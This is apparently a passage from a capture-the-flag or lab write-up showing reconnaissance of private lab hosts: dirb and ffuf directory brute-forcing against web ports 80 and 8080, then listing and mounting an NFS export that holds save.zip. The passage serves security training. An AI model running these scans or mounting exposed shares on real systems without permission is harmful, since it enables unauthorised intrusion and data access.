(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Thu Dec 15 11:54:31 2022
# DOWNLOADED: 262704 - FOUND: 0
```

### Port 8080

```console
└─$ dirb http://10.0.2.6:8080 /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Dec 15 11:55:37 2022
URL_BASE: http://10.0.2.6:8080/
WORDLIST_FILES: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

-----------------

*** Generating Wordlist...

GENERATED WORDS: 87568                                                         

---- Scanning URL: http://10.0.2.6:8080/ ----
==> DIRECTORY: http://10.0.2.6:8080/dev/                                                                
                                                                                                        
---- Entering directory: http://10.0.2.6:8080/dev/ ----
==> DIRECTORY: http://10.0.2.6:8080/dev/files/                                                          
==> DIRECTORY: http://10.0.2.6:8080/dev/pages/                                                          
==> DIRECTORY: http://10.0.2.6:8080/dev/forms/                                                          
==> DIRECTORY: http://10.0.2.6:8080/dev/config/                                                         
==> DIRECTORY: http://10.0.2.6:8080/dev/stamps/                                                         
                                                                                                        
---- Entering directory: http://10.0.2.6:8080/dev/files/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://10.0.2.6:8080/dev/pages/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://10.0.2.6:8080/dev/forms/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://10.0.2.6:8080/dev/config/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://10.0.2.6:8080/dev/stamps/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Thu Dec 15 12:09:33 2022
DOWNLOADED: 175136 - FOUND: 0
```

## ffuf

### Port 80

```console
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.0.2.6/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.6/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

public                  [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 4ms]
#                       [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 262ms]
src                     [Status: 301, Size: 302, Words: 20, Lines: 10, Duration: 6ms]
app                     [Status: 301, Size: 302, Words: 20, Lines: 10, Duration: 7ms]
#                       [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 420ms]
# on atleast 2 different hosts [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 440ms]
# Priority ordered case sensative list, where entries were found  [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 441ms]
# directory-list-2.3-medium.txt [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 442ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 474ms]
#                       [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 475ms]
vendor                  [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 1ms]
extensions              [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 1ms]
#                       [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 932ms]
                        [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 940ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 988ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 1114ms]
# Copyright 2007 James Fisher [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 1195ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 1274ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 1345ms]
                        [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 55ms]
server-status           [Status: 403, Size: 273, Words: 20, Lines: 10, Duration: 42ms]
:: Progress: [220560/220560] :: Job [1/1] :: 2528 req/sec :: Duration: [0:01:49] :: Errors: 0 ::
```

### Port 8080

```console
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.0.2.6:8080/FUZZ


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.6:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

# Priority ordered case sensative list, where entries were found  [Status: 200, Size: 94541, Words: 4693, Lines: 1159, Duration: 136ms]
#                       [Status: 200, Size: 94542, Words: 4693, Lines: 1159, Duration: 136ms]
#                       [Status: 200, Size: 94542, Words: 4693, Lines: 1159, Duration: 121ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 94542, Words: 4693, Lines: 1159, Duration: 139ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 94542, Words: 4693, Lines: 1159, Duration: 133ms]
#                       [Status: 200, Size: 94542, Words: 4693, Lines: 1159, Duration: 129ms]
# directory-list-2.3-medium.txt [Status: 200, Size: 94541, Words: 4693, Lines: 1159, Duration: 126ms]
# Copyright 2007 James Fisher [Status: 200, Size: 94541, Words: 4693, Lines: 1159, Duration: 262ms]
#                       [Status: 200, Size: 94542, Words: 4693, Lines: 1159, Duration: 308ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 94542, Words: 4693, Lines: 1159, Duration: 291ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 94542, Words: 4693, Lines: 1159, Duration: 313ms]
                        [Status: 200, Size: 94542, Words: 4693, Lines: 1159, Duration: 352ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 94542, Words: 4693, Lines: 1159, Duration: 353ms]
# on atleast 2 different hosts [Status: 200, Size: 94542, Words: 4693, Lines: 1159, Duration: 156ms]
dev                     [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 20ms]
                        [Status: 200, Size: 94542, Words: 4693, Lines: 1159, Duration: 39ms]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 8ms]
:: Progress: [220560/220560] :: Job [1/1] :: 3700 req/sec :: Duration: [0:01:49] :: Errors: 0 ::
```

## NFS (Port 2049)

```console
└─$ showmount -e 10.0.2.7                          
Export list for 10.0.2.7:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
        
┌──(kali㉿kali)-[~]
└─$ sudo mkdir /mnt/dev2 

┌──(kali㉿kali)-[~]
└─$ sudo mount -v -t nfs 10.0.2.7:/srv/nfs /mnt/dev2
mount.nfs: timeout set for Fri Dec 16 12:01:30 2022
mount.nfs: trying text-based options 'vers=4.2,addr=10.0.2.7,clientaddr=10.0.2.15'

┌──(kali㉿kali)-[~]
└─$ ls /mnt/dev2
save.zip
```

---
